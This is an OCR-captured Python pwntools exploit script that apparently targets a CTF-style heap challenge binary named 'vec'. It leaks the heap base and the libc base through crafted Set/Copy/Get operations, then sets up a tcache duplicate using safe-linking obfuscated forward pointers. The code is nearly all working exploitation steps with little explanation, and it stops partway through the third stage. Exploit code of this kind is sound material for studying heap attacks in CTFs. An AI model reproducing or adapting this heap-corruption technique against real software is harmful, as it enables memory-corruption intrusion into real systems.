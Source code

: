 ```python
def Upper(val1, val2):
    Set(0, val1)
    Set(1, val2)
    Copy(4, 2, -1)

context(arch='amd64', os='linux')
if args.REMOTE:
    p = remote('localhost', 5000)
    libc = ELF("./libc.so.6", False)
else:
    p = process('./vec', aslr=1)
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", False)

# 1. heap leak
for i in range(0x20):
    Set(i, i)

for _ in range(10):
    Copy(1, 3, -1)

Get(0)
leak = int(p.recvline())
heap = (leak << 12) - 0x11000
log.success(f"heap base @ {hex(heap)}")
Upper(0, 0x111)
Set(0, 0)
Set(0, 1)
for i in range(0x20, 0x160):
    Set(i, i)

Clear()

# 2. libc leak
for i in range(0x10):
    Set(i, 0xFBAD0000 + i)

Set(8, 0x0)
Set(9, 0x91)

for i in range(0x10, 0x80):
    Set(i, i)

Copy(0x80, 0x70, -1)
Get(0x72)
libc.address = int(p.recvline(), 10) - 96 - 0x100 - 224 - libc.symbols['_IO_2_1_stdin_']
log.success(f"libc base @ {hex(libc.address)}")
Clear()

# 3. tcache dup into 0x11c10 chunk and free it
for i in range(8):
    Set(i, 0xDEAD0000 + i)

fd1 = obfuscate(0, heap + 0x11eb0)
fd2 = obfuscate(heap + 0x2a0, heap + 0x11ed0)
fd3 = obfuscate(0, heap + 0x11ef0)
Upper(0, 0x21)
Upper(fd1, 0)
Upper(0, 0x21)
Upper(fd2, 0)
Upper(0, 0x31)
Upper(fd3, 0)
Upper(0, 0)
Upper(0, 0x51)
```